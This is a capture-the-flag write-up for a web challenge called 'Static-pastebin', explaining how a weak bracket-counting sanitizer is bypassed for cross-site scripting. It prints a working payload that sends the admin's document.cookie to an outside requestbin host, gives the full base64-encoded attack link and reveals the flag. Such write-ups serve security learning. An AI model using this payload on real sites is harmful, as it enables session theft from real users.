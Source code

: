 ## Static-pastebin :

The description of this challenge was : " I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here "

The home page of the web site was presented like this:

![CaptureVero](https://user-images.githubusercontent.com/59454895/85900597-63acc800-b800-11ea-81fa-4d3b209847fa.PNG)

There was also a way to report a link to the admin:

![OOOOOO](https://user-images.githubusercontent.com/59454895/85901979-344b8a80-b803-11ea-9027-8e13f90dacdc.PNG)


First of all i tried to put <script>alert(1);</script> to see if the site would print the number one but it didn't work and i got this :

![Capture000](https://user-images.githubusercontent.com/59454895/85898838-49251f80-b7fd-11ea-85b8-91c018a2c048.PNG)

 Here i could notice that every post was base64 encoded when i pressed the button create , i got also this confirmation from the code of the site that was dealing the posts , because as we can see there is the btoa function that encodes the text value in base64 :
 
 ```javascript
 (async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

After i made the post in the site i looked inside the source again to see how the reading part was handled  and i found some interesting code :
```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```
Reading this code i understood two important things , first of all the value from URL is decoded from base64 using the atob function ( It will be useful when i will report the link with the payload) and our input is sanitized with the clean function , looking inside this function i could see that the writing of text was not allowed if the bracket pairs didn't match . I broke this function just adding a > to my payload :
```javascript
test"><img src=x onerror=alert("22");>
```
![Test](https://user-images.githubusercontent.com/59454895/85903016-a45b1000-b805-11ea-8b64-ee6ca162333f.PNG)

Now that I know it works locally I modified my payload in this way :  ``` test"><img src=x onerror=window.location.href='https://en96oi0edd3dm.x.pipedream.net/?a='+document.cookie;>``` . I used a requestbin to intercept the admin's cookies.


Now the admin needs to visit the link or we can't intercept his cookie, so I encoded all my payload in base 64 and i inserted it in the link with this way :

https://static-pastebin.2020.redpwnc.tf/paste/#dGVzdCI+PGltZyBzcmM9eCBvbmVycm9yPXdpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL2VuOTZvaTBlZGQzZG0ueC5waXBlZHJlYW0ubmV0Lz9hPScrZG9jdW1lbnQuY29va2llOz4=

The final step was to report this entire link to the admin and check the requestbin  :

![FlagStaticBin](https://user-images.githubusercontent.com/59454895/85904268-87740c00-b808-11ea-8c5e-bf24dc24d7a4.PNG)

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}

